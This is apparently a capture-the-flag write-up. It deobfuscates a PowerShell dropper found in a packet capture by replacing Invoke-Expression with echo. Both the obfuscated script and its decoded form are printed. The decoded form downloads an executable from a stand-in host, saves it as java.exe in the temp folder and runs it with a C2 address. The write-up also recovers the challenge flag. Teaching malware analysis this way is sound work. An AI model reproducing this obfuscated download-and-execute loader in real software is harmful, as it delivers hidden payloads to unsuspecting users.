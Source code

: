 # ShellPower

We are given a `capture.pcap` file to analyze!
If we filter for `http` traffic we find a single `GET` request that downloads an `init.ps1` powershell script:

![](./assets/get.png)

Let's analyze it:

```powershell
('.( rH3ShElLID[1]+rH3sheLLID[13'+']+ghYxghY) (-JoIN ( (36,117 , 114 ,108, 32,61 ,32 , 34 , 104 ,116 ,116,112 ,58 , 47,47 , 99 , 121,98 ,101,114 , 46 ,1'+'09 ,111 , 117, 46, 102,108, 111, 110 ,46, 115 ,58 , 56 , 48 ,48,48 ,47, 112 ,101 , 114, 115, 105, 115 , 116 ,46 , 101 , 120, 101,34, 13 , 10,36 ,84, 32 , 61 , 32 , 91 ,83 '+',121, 115,116, 101 ,109, 46 ,73, 79, '+'46'+',80,97, 116 , 104 , 93,58 ,58, '+'71 , '+'101, 116 , 84'+',1'+'01 ,109,11'+'2 , 80, 97, 116 ,104, 40 ,41 ,13, 10, 36 , 111, 117,1'+'16 ,'+' 112, 97, 116 ,104, 32,61,32 , 34 , 36 , 84 ,47 ,106, 97 ,118,97 , 46,101 ,120, 101,34 ,13,10,73, 110 , 11'+'8'+' , 111, 107 , 101 , 45 , 87 ,1'+'01, 98,82 ,101,113, 117 ,101,115 ,116, 32 ,45 , 85 ,114, 105 , 32 , 36 , 117 , 114,108 , 3'+'2 ,'+'45, 79,117,116,70 ,105, 108,101'+' ,32,36, 111 ,117 , 116,112 , 97,116,104 ,13 ,10 , 13,10 ,36,119 , 101,105,114, 100,49 , 32,61,32 , 34,71 , 84,66, 81,123,98 ,52 ,98,121 , 95 ,115 , 116 , 51 ,34 ,13, 10,13 , 10 , 36, 119 , 101, 105 , 114 , 100, 5'+'0 , '+'32 ,61, 32 ,91 , 98 ,121,116,101,91 , 93, 93 ,40 ,48, 120,55 ,50 ,44, 48 , 120, 55 ,50 ,44 , 48,120 ,55, 50 , 44, 48, 120,55 , 50, 4'+'4 '+',48,120,55 ,50, 44 , 48, 120, 55 , 50,44 ,48 , 120 , 51, 51, 44,'+' 48, 120, 51'+', 51 , 44 , 48 , 120, 55,55 , 44 ,48,120 , 51'+',48 ,44, 48 , 120 ,55 ,48 , 44, 48, 120 , 53 , 102 , 44 ,48 ,120 , 54,101 , 44 , 48,120 ,51,49,44 , 48 , 120,53 ,102,44, 48 ,120 , 55,51,44 , 48 ,120,55,48 , 41, 59 ,13 , 10, 91 , 97 , 114 ,114, 97 , 121 ,93'+',58 ,58'+' , 82, 101 ,118 ,101,114, 115 , 101 ,40,36 ,119 '+',101 , 105, 114,100,50 , 41,13, 10, 13, 10 ,36 ,119 , 101, 105 , 1'+'14 ,100 , 50 , 32 ,61, 32 , 91, 83 , 121 , 115,116, 101 ,109 ,46,84 ,101, 120 , 116 ,46 , 69,'+' 110, 99 , 111 ,100,105,1'+'10,103 , 93,58 ,58'+',85 , 84 ,70 ,56,46,71 , 101,116, 8'+'3, 116 , 114, 105 , 110,10'+'3 , 40 ,36 , 119,101,105 ,114,100'+' '+',5'+'0,41 ,13, 10, 13 ,10 , 36,119 ,101 , 105 , '+'114, 100 , 51 , 32,61, 32,91, 83 ,121 , 115,116,101, 109,46, 84 , 101,120 , 116,46, 69,110,99, 111,100 , '+'105 ,110 , 103 ,93,58,58 , 85,84 ,70 ,56 ,46 , 71,1'+'01,11'+'6,83 , 116 , 1'+'14, 1'+'05,110 ,103,40 , 91 , 83,121 , 115, 116,101 ,109, 46 ,67,111,110 , 118 ,101,114, 116, 93 , 58,'+' 58 ,70,114 , 111,109,66 , 97, 115 '+',101, 54 ,52 ,83 , 116, 114 ,105,110 ,103,40 , 34 , 76 ,86, 78, 111 ,77 ,50,120 , 115 , 88 ,5'+'0 , 82 ,108,77 , 71,74, 109, 100, 88 , 78 , 106 ,78 , 72,81 ,120,77,71, 52 , 104,102, 81 ,61, 61,34 ,41, 41 ,13, 10,13 '+',10, 36, 97 '+',114, 103 , 11'+'5, 32, 61, '+'32, 64, 40, 34,45, 80, 101 ,'+' 114, 115,105, 115 ,116, 32, 84'+' ,114 ,117, 101 ,32,45 , 99,110, 99,32, 99,50,46,99 , 121,98,1'+'01 ,114,46 ,109 , 111, 117 , 46 ,102, 108 ,111 , 110 ,46 , 115,47 ,105 ,110 , 105, 116, 34 , 41,13 , 10 ,83 , 116 ,97 ,114,116,45, 80, 114 , 111 , 9'+'9 ,101, 115 , 115 , 32 ,45, 70, 105 ,108 ,101,'+'112,97,1'+'16,104 ,32 ,36,111,117,116 , 112 , 97,116 , 104, 32,45 ,65, 114,103 ,117, 109,101 ,110,116 ,7'+'6, 105 ,115 , 116,32 , 36 ,97, 114 , 103,115 , 13 ,10 )sqSfOr'+'eaCh-OBjecT {( [CHaR] [int] rH3_)} )) ').RepLace(([CHAr]114+[CHAr]72+[CHAr]51),[strINg][CHAr]36).RepLace(([CHAr]103+[CHAr]104+[CHAr]89),[strINg][CHAr]39).RepLace(([CHAr]115+[CHAr]113+[CHAr]83),'|')| .( $sHelLid[1]+$sHElLID[13]+'x')
```

It's clearly obfuscated in an attempt to evade antivirus and other analysis tools. Instead of diving into `powershell` syntax, let's see if we can simplify our approach.

For starters we can see that the code is separated into 2 parts at the `|` symbol. The `pipe` (`|`) symbol serves as a redirector of `stdout -> stdin`. That means the part after the `pipe` will do "something" with the input provided. At this point we can deduce that the 1st part is the malware being decoded and then passed into "something" to be executed.

What is that "something"? Well, let's find out! We can easily run `powershell` and run the 2nd part of the `pipe`:

![](./assets/iex.png)

`Invoke-Expression` hmm... After searching around, this is the expanded version of the `iex` command:

![](./assets/iex2.png)

From the [iex docs](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.4):

```txt
The Invoke-Expression cmdlet evaluates or runs a specified string as a command and returns the results of the expression or command. 
Without Invoke-Expression, a string submitted at the command line is returned (echoed) unchanged.
```

So the input is just a string (powershell code) that gets, executed. To get the deobfuscated string without doing much work, we can simply change the 2nd part of the `pipe` from `iex` to `echo`:

```powershell
.( $ShElLID[1]+$sheLLID[13]+'x') (-JoIN ( (36,117 , 114 ,108, 32,61 ,32 , 34 , 104 ,116 ,116,112 ,58 , 47,47 , 99 , 121,98 ,101,114 , 46 ,109 ,111 , 117, 46, 102,108, 111, 110 ,46, 115 ,58 , 56 , 48 ,48,48 ,47, 112 ,101 , 114, 115, 105, 115 , 116 ,46 , 101 , 120, 101,34, 13 , 10,36 ,84, 32 , 61 , 32 , 91 ,83 ,121, 115,116, 101 ,109, 46 ,73, 79, 46,80,97, 116 , 104 , 93,58 ,58, 71 , 101, 116 , 84,101 ,109,112 , 80, 97, 116 ,104, 40 ,41 ,13, 10, 36 , 111, 117,116 , 112, 97, 116 ,104, 32,61,32 , 34 , 36 , 84 ,47 ,106, 97 ,118,97 , 46,101 ,120, 101,34 ,13,10,73, 110 , 118 , 111, 107 , 101 , 45 , 87 ,101, 98,82 ,101,113, 117 ,101,115 ,116, 32 ,45 , 85 ,114, 105 , 32 , 36 , 117 , 114,108 , 32 ,45, 79,117,116,70 ,105, 108,101 ,32,36, 111 ,117 , 116,112 , 97,116,104 ,13 ,10 , 13,10 ,36,119 , 101,105,114, 100,49 , 32,61,32 , 34,71 , 84,66, 81,123,98 ,52 ,98,121 , 95 ,115 , 116 , 51 ,34 ,13, 10,13 , 10 , 36, 119 , 101, 105 , 114 , 100, 50 , 32 ,61, 32 ,91 , 98 ,121,116,101,91 , 93, 93 ,40 ,48, 120,55 ,50 ,44, 48 , 120, 55 ,50 ,44 , 48,120 ,55, 50 , 44, 48, 120,55 , 50, 44 ,48,120,55 ,50, 44 , 48, 120, 55 , 50,44 ,48 , 120 , 51, 51, 44, 48, 120, 51, 51 , 44 , 48 , 120, 55,55 , 44 ,48,120 , 51,48 ,44, 48 , 120 ,55 ,48 , 44, 48, 120 , 53 , 102 , 44 ,48 ,120 , 54,101 , 44 , 48,120 ,51,49,44 , 48 , 120,53 ,102,44, 48 ,120 , 55,51,44 , 48 ,120,55,48 , 41, 59 ,13 , 10, 91 , 97 , 114 ,114, 97 , 121 ,93,58 ,58 , 82, 101 ,118 ,101,114, 115 , 101 ,40,36 ,119 ,101 , 105, 114,100,50 , 41,13, 10, 13, 10 ,36 ,119 , 101, 105 , 114 ,100 , 50 , 32 ,61, 32 , 91, 83 , 121 , 115,116, 101 ,109 ,46,84 ,101, 120 ,116 ,46 , 69, 110, 99 , 111 ,100,105,110,103 , 93,58 ,58,85 , 84 ,70 ,56,46,71 , 101,116, 83, 116 , 114, 105 , 110,103 , 40 ,36 , 119,101,105 ,114,100 ,50,41 ,13, 10, 13 ,10 , 36,119 ,101 , 105 , 114,100 , 51 , 32,61, 32,91, 83 ,121 , 115,116,101, 109,46, 84 , 101,120 , 116,46, 69,110,99, 111,100 , 105 ,110 , 103 ,93,58,58 , 85,84 ,70 ,56 ,46 , 71,101,116,83 , 116 , 114, 105,110 ,103,40 , 91 , 83,121 , 115, 116,101 ,109, 46 ,67,111,110 , 118 ,101,114, 116, 93 , 58, 58 ,70,114 , 111,109,66 , 97, 115 ,101, 54 ,52 ,83 , 116, 114 ,105,110 ,103,40 , 34 , 76 ,86, 78, 111 ,77 ,50,120 , 115 , 88 ,50 , 82 ,108,77 , 71,74, 109, 100, 88 , 78 , 106 ,78 , 72,81 ,120,77,71, 52 , 104,102, 81 ,61, 61,34 ,41, 41 ,13, 10,13 ,10, 36, 97 ,114, 103 , 115, 32, 61, 32, 64, 40, 34,45, 80, 101 , 114, 115,105, 115 ,116, 32, 84 ,114 ,117, 101 ,32,45 , 99,110, 99,32, 99,50,46,99 , 121,98,101 ,114,46 ,109 , 111, 117 , 46 ,102, 108 ,111 , 110 ,46 , 115,47 ,105 ,110 , 105, 116, 34 , 41,13 , 10 ,83 , 116 ,97 ,114,116,45, 80, 114 , 111 , 99 ,101, 115 , 115 , 32 ,45, 70, 105 ,108 ,101,112,97,116,104 ,32 ,36,111,117,116 , 112 , 97,116 , 104, 32,45 ,65, 114,103 ,117, 109,101 ,110,116 ,76, 105 ,115 , 116,32 , 36 ,97, 114 , 103,115 , 13 ,10 )|fOreaCh-OBjecT {( [CHaR] [int] $_)} ))
```

More obfuscation... But looking at this code now, we can see that it too is separated into two parenthesis groups! The first one concatenates 3 characters to create the string... You guessed it! `iex`!

Similarly, we can change that to `echo` and view the next part of the script!

```powershell
$url = "http://cyber.mou.flon.s:8000/persist.exe"
$T = [System.IO.Path]::GetTempPath()
$outpath = "$T/java.exe"
Invoke-WebRequest -Uri $url -OutFile $outpath

$weird1 = "GTBQ{b4by_st3"

$weird2 = [byte[]](0x72,0x72,0x72,0x72,0x72,0x72,0x33,0x33,0x77,0x30,0x70,0x5f,0x6e,0x31,0x5f,0x73,0x70);
[array]::Reverse($weird2)

$weird2 = [System.Text.Encoding]::UTF8.GetString($weird2)

$weird3 = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("LVNoM2xsX2RlMGJmdXNjNHQxMG4hfQ=="))

$args = @("-Persist True -cnc c2.cyber.mou.flon.s/init")
Start-Process -Filepath $outpath -ArgumentList $args
```

Now we come across a much more nice looking piece of code that we can finally analyze!

The first 4 lines, define a download directory and download an `exe`.

Then a couple of `weird` variables are being created... And finally the downloaded executable gets executed!

Taking a look at `weird1` we can see that it starts with the flag prefix!

`weird2` is a byte array that firstly gets reversed and then converted to a string and finally, `weird3` is created by decoding a `base64` string.

In a, by now, very familiar move, we can grab the values of those variables just by echoing them to `stdout` (removing the rest of the code!!):

```powershell
$weird1 = "GTBQ{b4by_st3"

$weird2 = [byte[]](0x72,0x72,0x72,0x72,0x72,0x72,0x33,0x33,0x77,0x30,0x70,0x5f,0x6e,0x31,0x5f,0x73,0x70);
[array]::Reverse($weird2)

$weird2 = [System.Text.Encoding]::UTF8.GetString($weird2)

$weird3 = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("LVNoM2xsX2RlMGJmdXNjNHQxMG4hfQ=="))

echo $weird1
echo $weird2
echo $weird3
```

![](./assets/flag.png)
